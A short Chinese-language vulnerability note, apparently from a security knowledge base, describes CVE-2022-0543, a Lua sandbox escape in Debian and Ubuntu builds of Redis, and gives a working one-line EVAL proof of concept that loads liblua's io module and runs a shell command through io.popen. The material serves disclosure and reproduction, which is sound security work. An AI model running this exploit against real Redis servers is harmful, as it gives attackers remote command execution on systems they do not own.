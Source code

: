 # Redis Lua 沙箱绕过 远程命令执行 CVE-2022-0543

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

## 漏洞影响

Redis

## 漏洞复现

远程连接Redis, 执行POC

```javascript
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647571045713-b47b4478-7425-402a-a8e3-4dd572c51270.png)